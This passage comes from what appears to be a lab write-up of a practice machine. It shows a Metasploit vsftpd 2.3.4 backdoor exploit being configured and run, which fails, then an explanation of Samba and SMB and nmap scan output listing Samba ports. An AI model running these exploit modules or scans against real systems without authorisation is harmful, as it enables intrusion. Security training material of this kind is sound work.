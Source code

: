 ```
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                       /basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
```

The payload already seems to be set correctly, so we can go ahead and run the exploit:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

It does not work either!

We haven't talked about Samba yet. [As you can read on Wikipedia](<https://en.wikipedia.org/wiki/Samba_(software)>), it is an implementation of the _Server Message Block_ protocol (`SMB`). `SMB` is an alternative to FTP that goes far beyond file sharing and also handles printers amongst other general computer network communication. It previously depended heavily on the [NetBIOS](https://en.wikipedia.org/wiki/NetBIOS), which is a system of services that run the [session layer](https://en.wikipedia.org/wiki/Session_layer) of the [OSI model](https://en.wikipedia.org/wiki/OSI_model). `netbios-ssn` stands for the NetBIOS session service. In modern times SMB has been moved to TCP port 445, and no longer relies on NetBIOS for communication. Port 139 is only really still listening to ensure backwards compatibility with older systems.

Let's look back at our last `nmap` scan:

```
$ sudo nmap -sV -oN lame 10.10.10.3

<same as before>

$ ls -l

total 4
-rw-r--r-- 1 root root 745 Apr  7 15:48 lame

$ cat lame | grep Samba

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```
